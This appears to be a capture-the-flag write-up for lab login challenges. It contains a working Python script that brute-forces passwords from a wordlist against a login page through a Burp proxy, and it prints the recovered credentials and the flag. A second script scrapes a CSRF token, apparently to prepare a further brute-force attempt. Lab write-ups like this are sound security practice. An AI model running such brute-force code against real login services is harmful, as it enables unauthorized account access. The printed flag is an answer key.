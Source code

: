 ### Login1

```
import requests

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}

with open("/home/kali/Documents/pass.txt", "r") as file:
 for line in file:
  a = line.strip()
  x = requests.post("http://192.168.70.202:3333/login1.php", proxies=proxies, data={"username":"claudetest1","password":a})
  if 'Password salah' in x.text:
   print('tidak valid')
  else:
   print(a)
```

use burpsuit to check value user and pass and will get confirmation text "Password salah".

> [!NOTE] Change file for checking
> with open("/home/kali/Documents/pass.txt", "r") as file:

first check for all user.txt, then check for pass.txt

user: claudetest1 <br>
pass: halo1027 <br>
flag: CSM{Ez_bgt_c0ba_c0ba_nya} <br>

![Screenshot 2025-04-25 164606](https://github.com/user-attachments/assets/02d8da3a-abea-4001-ada1-05b8566a1ced)


### Login2

testing get value:
```
import requests
from bs4 import BeautifulSoup

proxies = {
  "http": "http://127.0.0.1:8080",
  "https": "http://127.0.0.1:8080",
}

html = requests.get("http://192.168.70.202:3333/login2.php", proxies=proxies)

soup = BeautifulSoup(html.content, 'html.parser')

input_tag = soup.find('input', {'name': 'csrf_token'})
value = input_tag['value']

print(value)

```

